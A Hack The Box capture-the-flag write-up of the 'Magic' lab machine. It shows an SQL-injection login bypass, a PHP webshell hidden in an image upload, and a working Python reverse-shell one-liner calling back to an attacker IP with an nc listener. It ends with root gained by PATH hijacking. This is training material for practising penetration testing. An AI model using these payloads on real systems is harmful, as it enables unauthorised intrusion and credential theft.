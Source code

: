 ```yaml
---
title: Magic Writeup
author: mooncakeza
date: 2020-04-20 11:30am
categories: [hackthebox]
tags: [hackthebox, writeup, magic]
math: true
image: /assets/img/htb/Magic/magic_infocard.png
---
```


<p>Let's do a NMAP scan</p>

<img src="/assets/img/htb/Magic/01_nmap.png">

<p>
Browsing to http://10.10.10.185 we get a page with images and on the bottom left a login to upload images.
</p>

<img src="/assets/img/htb/Magic/02_login_message.png">

<p>
Let's click on the login link.
</p>

<img src="/assets/img/htb/Magic/03_login_blank.png">

<p>
I tried default top 10 usernames and passwords combos but nothing.
<br>
Since we have no credentials, we can try SQL injection
<br>
username: 'or '1'='1
<br>
password: 'or '1'='1
</p>

<img src="/assets/img/htb/Magic/04_login_sql.png">

<p>

We get prompted with an upload page for images.

</p>

<img src="/assets/img/htb/Magic/05_upload_img.png">

<p>

Let's see what can be uploaded. Let's just click upload.

</p>

<img src="/assets/img/htb/Magic/06_upload_img_error.png">

<p>

Only JPG, JPEG and PNG files are allowed. We need to bypass the filter.
<br>
Let's first upload a JPEG file and see where it saves it to.
<br>
When we upload a picture it adds it to the front page on the slider and so we can right click to view image and we can see it saves it under http://10.10.10.185/images/uploads/
<br>
Now let's do some magic
<br>
Take any JPG,JPEG or PNG inject it with some code and then rename the file.

</p>

<img src="/assets/img/htb/Magic/07_cmd_image_insert.png">

<p>

Upload this file via the upload page
<br>
In another terminal run nc -lvnp 9991
<br>
The only payload I found to work was the python method
<br>
Now point your browser or use curl to the following URL
<br>
http://10.10.10.185/images/uploads/lordcommander.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",9991));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

</p>

<img src="/assets/img/htb/Magic/08_img_rev_shell.png">

<p>

We have a shell!
<br>
Let's get an interactive shell

<p>

<ol><li>python -c 'import pty; pty.spawn("/bin/bash")'</li><li>ctrl + z (put's the nc into the background)</li><li>echo $TERM (this gets what your term is set as)</li><li>stty -a (this gets your windows size)</li><li>stty raw -echo (NOTE: you will not see any output after this)</li><li>fg (go back to the nc)</li><li>reset (this resets the terminal settings on the remote machine</li><li>In the Terminal type, type in the $TERM output you got, in my case it was xterm-256color. </li></ol>
<br>
NOTE: as of recent, this method I found has not been working as intended and sometimes hands the termminal. 
</p>

<p>

After enumerating a bit we get the following.

</p>

<img src="/assets/img/htb/Magic/09_db_details.png">

<p>

I tried to use the password to login via ssh and su but both failed.
<br>
This is not the password for the user.
<br>
Let's enumerate the database. There is no mysql client installed so the only way now is to do a mysqldump.

</p>

<img src="/assets/img/htb/Magic/10_db_dump.png">

<p>

We then find this in the dump.

</p>

<img src="/assets/img/htb/Magic/11_db_creds.png">

<p>

We have some creds. Password reuse?
<br>
Let us just su to the user with the password.

</p>


<img src="/assets/img/htb/Magic/12_user_login_png.png">

<p>

user flag achieved!
<br>
Now for root.
<br>
We first have to upload some enumerating scripts.
<br>
I uploaded both LinEnum and LinPEAS and found this pretty interesting:

</p>

<img src="/assets/img/htb/Magic/13_exec_files.png">

<p> 

/bin/sysinfo is executable and the user group has permissions to run it.
<br>
There is another tool called pspy64 which monitors linux processes and we can use this to see what sysinfo does in the background. So we run /bin/sysinfo and monitor pspy64 and see the following.

</p>

<img src="/assets/img/htb/Magic/14_fdisk.png">

<p>

sysinfo calls a few files and seems like we can inject our own path to point to a custom created fdisk file to maybe create a reverse shell?
<br>
First in another terminal run our nc -lvnp 9994 
<br>
Back to the magic terminal and let us add /tmp into the system PATH
<br>
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin:/usr/games:/usr/local/games:/snap/bin:/tmp
<br>
We then create a file in /tmp with the following.

</p>

<img src="/assets/img/htb/Magic/15_python_shell.png">

<p>

Make it executable and then run /bin/sysinfo again and we watch pspy64.

</p>

<img src="/assets/img/htb/Magic/16_run_script.png">

<p>

You can see it has now executed our code from the fdisk file we created in the /tmp directory instead of the actual operating system's fdisk!
<br>
Let us pop to the terminal where we can our nc.

</p>

<img src="/assets/img/htb/Magic/17_shell_pop.png">

<p>

WE HAVE ROOT!

</p>
